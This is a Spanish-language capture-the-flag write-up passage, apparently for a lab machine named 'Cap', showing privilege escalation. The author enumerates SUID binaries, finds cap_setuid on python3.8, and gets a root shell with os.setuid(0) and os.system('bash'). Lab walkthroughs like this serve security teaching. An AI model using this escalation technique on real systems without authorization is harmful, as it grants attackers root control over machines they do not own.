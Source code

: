 ![Dentro]({{ 'assets/img/writeups/Cap/dentro.png' | relative_url }}){: .center-image }

## Escalada de privilegos

```
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.

nathan@cap:/$ find \-perm -4000 2>/dev/null
./usr/bin/umount
./usr/bin/newgrp
./usr/bin/pkexec
./usr/bin/mount
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/sudo
./usr/bin/at
./usr/bin/chsh
./usr/bin/su
./usr/bin/fusermount

```
Todo lo anterior es típico y no vulnerable. Podríamos escalar posiblemente mendiante el pkexec pero la máquina no está hecha para hacerla así -la vulnerabilidad de pkexec como archivo SUID fue descubierta hace poco-.

Aquí está lo bueno:
```
nathan@cap:/$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Siempre que veamos un "cap_setuid" podemos alegrarnos. Lo que puedes hacer con esto es tener la capacidad de establecer el uid que tu quieras, como por ejemplo el uid de root que por defecto es 0. En este caso lo tenemos mediante python 3.8.
```
nathan@cap:/$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("bash")
root@cap:/# whoami
root
```
¡¡Y hemos escalado a root!!
